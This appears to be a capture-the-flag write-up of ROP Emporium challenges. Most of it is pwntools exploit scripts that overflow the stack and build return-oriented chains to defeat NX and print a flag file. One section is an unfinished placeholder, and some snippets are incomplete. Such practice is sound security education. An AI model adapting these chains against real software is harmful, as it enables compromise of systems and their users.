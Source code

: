 ```yaml
---
title: "ROP Emporium Revisited"
categories: ["Hacking", "Binary Exploitation"]
tags: ["hacking", "pentesting", "pwntools", "Exploit Development"]
date: "2021-07-27"
type: "post"
weight: 400
keywords: "hacking rop pwntools"
---
```


## Overview



> ROP highlights a classical strategy across all facets of security exploitation, living off the land.



## ret2win #2

`ret2win` is the first challenge among the rop emporium suite and plays out like a classical [buffer overflow](../basic-stack-based-overflows). The only real takeaway from this challenge is to note the state of the memory protections enabled for the binary.


```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We see that the `NX` bit is **enabled** this is true of almost all ROP challenges since we wish to prevent execution off the stack with shellcode. We note however that we can still control the return pointer and thus redirect code execution. Our goal is to call the `ret2win` function, but why can we even call this function?

If you understand the notion off living off the land you will recognize the key utility of ROP and why it can be used to circumvent no execute (`NX`) memory protections. The instructions we execute *already exist within the program* after compilation.

In this case that code is the win function `ret2win` but there are many other instructions within the binary, some which are never even used by the program in its running lifetime ... 

Compilers are not perfect programs, and indeed `x86` as an instruction set has its oddities, they leave behind garbage instructions as well as carrying out other weird behavior. 

> These leftover instructions, often called 'gadgets', can be of great use to us.

They are an example of a [weird machine](https://en.wikipedia.org/wiki/Weird_machine). We will explore their utility in detail as we continue but for now know they exist alongside the functions and other instructions that make up the program.

With this understanding, we proceed by fuzzing the offset to the return pointer with cyclic (yes even tho it tells us the bytes to overwrite). We can then hook `ret2win` from the symbols table and use `fit/flat` to pad the offset to our packed address.

The exploit for the 32 bit binary (this is the track we will follow) is as follows.


```python
from pwn import *
proc = process('./ret2win32')

## get da banner
log.info('Receiving banner ...')

payload = fit({
    cyclic_find('laaa'): p32(elf.symbols['ret2win'])
})

proc.sendafter('> ', payload)
# shellit
proc.interactive()
```

## split

//TODO 


## write4


```python
# ::::::::::: .data at this address is uninitialized ::::::::::

#data_section = elf.get_section_by_name('.data').header.sh_addr

# better way
data_section = elf.symbols.data_start
log.success(f".data starts @{hex(data_section)}")
# :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::

# :::::::::::::::::::::: resolve gadgets ::::::::::::::::::::::

# pwntools hides some gadgets from us so we resolve via
# function
mov_gadget = elf.symbols['usefulGadgets']
log.success(f"gadget: mov [edi], ebp; ret; @ {mov_gadget}")

# this lookup fails if the list of registers to pop cannot 
# be met
pop_gadget = rop.search(0, ['edi', 'ebp'], 'regs').address
log.success(f"pop gadget: pop edi; pop ebp; ret; @ {hex(pop_gadget)}")

print("\n")
log.info("::: Beginning write sequence for 'flag.txt' ::: \n")
log.info("Writing .data address to edi, 'flag' to ebp ...")
# :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::

# :::::::::::::::::::::::: create chain :::::::::::::::::::::::
rop.raw([
    pop_gadget,             # pop edi; pop ebp; ret;
    data_section,
    'flag',                 # write first 4 bytes of 'flag.txt'
    mov_gadget,             # mov [edi], ebp; ret;

    pop_gadget,             # pop edi; pop ebp; ret;
    data_section + 4,
    '.txt',                 
    mov_gadget              # mov [edi], ebp; ret;
])
# printfile arg in .data
rop.print_file(data_section)                     

payload = fit({
    cyclic_find('laaa'): rop.chain()
})

# :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::

# shellit
proc.sendlineafter('> ', payload)    
proc.interactive()
```



## badchars

```python
# :::::::::::::::::::::::::::: setup ::::::::::::::::::::::::::
badchars = enhex(b'xga.')           # convert badchars to hex
bet = 'bcdefhijklmnopqrstuvwyz'     # cleansed alphabet
data_section = elf.symbols.data_start
log.success(f".data starts @{hex(data_section)}")
# :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::

# :::::::::::::::::::::: resolve gadgets ::::::::::::::::::::::
ret_gadget = 0x08048386                              # ret
xor_gadget = elf.symbols['usefulGadgets'] + 4        # xor  BYTE PTR [ebp+0x0], bl
mov_gadget = elf.symbols['usefulGadgets'] + 12       # mov  DWORD PTR [edi], esi
pop_gadget = 0x080485b9                              # pop esi; pop edi; pop ebp;
pop_ebp = 0x080485bb                                 # pop ebp;
pop_ebx = 0x0804839d                                 # pop ebx;
# ::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::

# :::::::::::::::::::::::::::: exploit :::::::::::::::::::::::::
target_str = 'flag.txt'
xor_key = 42
encoded_target_str = xor(target_str, xor_key)
flag_str, txt_str = encoded_target_str[:4], encoded_target_str[4:]
log.success(f'Encoded flag: {flag_str.decode()}{txt_str.decode()}')

decoder_chain = b''
offset = 0
# xor's each byte of the xor'd string in the data
# section with the xor key to restore it back to
# the original string 'flag.txt'
for char in encoded_target_str:
    decoder_chain += pack(pop_ebp)
    decoder_chain += pack(data_section + offset)
    decoder_chain += pack(pop_ebx)
    decoder_chain += pack(xor_key)
    decoder_chain += pack(xor_gadget)
    offset += 1


rop.raw([
    pop_gadget,         # pop esi; pop edi; pop ebp;
    flag_str,           # 'flag' ^ xor_key
    data_section,   
    ret_gadget,         # ebp = ret
    mov_gadget,         # mov  DWORD PTR [edi], esi

    pop_gadget,         # pop esi; pop edi; pop ebp;
    txt_str,            # '.txt' ^ xor_key
    data_section + 4,
    ret_gadget,         # ebp = ret
    mov_gadget,         # mov  DWORD PTR [edi], esi

    decoder_chain       # restore the xor'd flag str
])
rop.print_file(data_section)

payload = fit({
    cyclic_find('nbbb', alphabet=bet): rop.chain(),
}, filler=bet)


proc.sendlineafter('> ', payload)
# shellit
proc.interactive()
```